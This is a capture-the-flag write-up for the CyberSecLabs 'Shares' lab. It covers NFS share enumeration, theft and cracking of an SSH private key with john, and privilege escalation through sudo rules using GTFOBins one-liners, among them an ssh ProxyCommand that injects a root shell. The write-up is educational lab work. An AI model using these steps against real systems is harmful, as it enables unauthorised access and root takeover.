 ```yaml
---
title: "CyberSecLabs - Shares"
author: Nasrallah
description: ""
date: 2022-03-19 00:00:00 +0000
categories : [CyberSecLabs]
tags: [cyberselabs, linux, nfs, john, crack]
---
```


---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at []() from [Shares](https://www.cyberseclabs.co.uk/labs/info/Shares/) from [CyberSecLabs](https://www.cyberseclabs.co.uk).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

![](/assets/img/cyberseclabs/shares/Untitled.png)

There are 4 open port.

  - 21/tcp     ftp     vsftpd 3.0.3
  - 80/tcp     http    Apache httpd 2.4.29
  - 111/tcp    rpcbind 2-4
  - 2049/tcp   nfs_acl 3

Since the machine is called shares, i decided to look for any nfs shares.

## NFS

We can list nfs shares using the following command: `showmount -e {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled1.png)

We found a share, let's mount it on our attacking machine.

First, use `mkdir /tmp/share` to create a directory on your machine to mount the share to. Now let's use the following command to mount the nfs share to our machine. `sudo mount -t nfs IP:/home/amir /tmp/share -nolock`

 - sudo :	Run as root
 - mount :	Execute the mount command
 - -t nfs :	Type of device to mount, then specifying that it's NFS
 - IP:share :	The IP Address of the NFS server, and the name of the share we wish to mount
 - -nolock :	Specifies not to use NLM locking

![](/assets/img/cyberseclabs/shares/Untitled2.png)

Great! We have successfully mounted the share.
It appears to be the home directory of **amir**, and it a **.ssh** directory that contains a private key, but when we run a port scan, there was no ssh service listening on the machine, let's run another scan for all ports. `sudo nmap -p- {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled3.png)

Great! We found the port of ssh.

# **Foothold**

Let's now use the private key we got from the nfs share so connect to the machine.

![](/assets/img/cyberseclabs/shares/Untitled4.png)

the private key has a password protecting it, using `ssh2john` we were able to extract a hash that we managed to crack using `john`. Let's try connecting again.

![](/assets/img/cyberseclabs/shares/Untitled5.png)


# **Privilege Escalation**

We now have access to the machine as **amir**, let's do some basic enumeration.

```terminal
amir@shares:~$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

We see that as amir, we can execute any command as root but we need a password for that, on the other hand, we can execute `/usr/bin/pkexec` and `/usr/bin/python3` as **amy**. We go to [GTFOBins](https://gtfobins.github.io/) and get a pkexec/python3 command that would give us a shell as amy.
  - python3 : `sudo -u amy python -c 'import os; os.system("/bin/bash")'`
  - pkexec : `sudo -u amy pkexec /bin/sh`

We can't escalate to amy with `pkexec` so let's use `python3`

![](/assets/img/cyberseclabs/shares/Untitled6.png)

We have amy's shell now, let's run another `sudo -l` to see what we can run.

```terminal
amy@shares:~$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

We can run `ssh` as root.
Going back to [GTFOBins](https://gtfobins.github.io/) and searching for ssh, we find that we can run the following command to get root `sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x`

![](/assets/img/cyberseclabs/shares/Untitled7.png)



---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
